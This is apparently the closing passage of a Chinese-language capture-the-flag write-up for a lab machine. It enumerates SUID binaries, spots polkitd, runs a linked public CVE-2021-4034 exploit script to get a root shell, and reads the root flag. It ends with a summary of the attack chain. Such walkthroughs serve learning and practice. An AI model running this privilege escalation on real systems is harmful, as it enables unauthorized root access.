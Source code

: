 ```shell
-rwsr-xr-x 1 root root 88464 Kas 29  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68208 Kas 29  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 44784 Kas 29  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 55528 Şub  7  2022 /usr/bin/mount
-rwsr-xr-- 1 root messagebus 51344 Eki 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-sr-x 1 root root 14488 Eki 23 19:31 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 22840 Şub 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 146888 May 29 15:09 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 14488 Tem  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 473576 Ağu  5 01:02 /usr/lib/openssh/ssh-keysign
```

在进程信息中发现了polkitd进程：

```shell
thugger@drippingblues:~$ ps -ef
... ...
root       19330       1  0 05:04 ?        00:00:00 /usr/sbin/cupsd -l
root       29599       1  0 05:06 ?        00:00:00 /usr/lib/policykit-1/polkitd --no-debug
root       29605       1  0 05:06 ?        00:00:00 /usr/sbin/ModemManager --filter-policy=strict
... ...
```

那就直接用polkitd进行提权。使用sftp上传[CVE-2021-4034-exp](https://github.com/nikaiw/CVE-2021-4034/blob/master/cve2021-4034.py)并执行进行提权:

```SHELL
thugger@drippingblues:~$ python3 cve-2021-4034.py
# id
uid=0(root) gid=0(root) groups=0(root),1001(thugger)
# ls /root
root.txt
# cat /root/root.txt
78CE377EF7F10FF0EDCA63DD60EE63B8#
```

这个md5进行碰撞没有发现结果。

没有其他东西了，应该也就到此为止了。

## Notes

### 思路梳理

url parameters fuzz --> robots.txt get file info --> get password -->  login ssh --> polkit privilege escalation

### CVE-2021-3560

CVE-2021-3560也是一个polkit常用的提权漏洞，但是在本次的测试中一直失败。

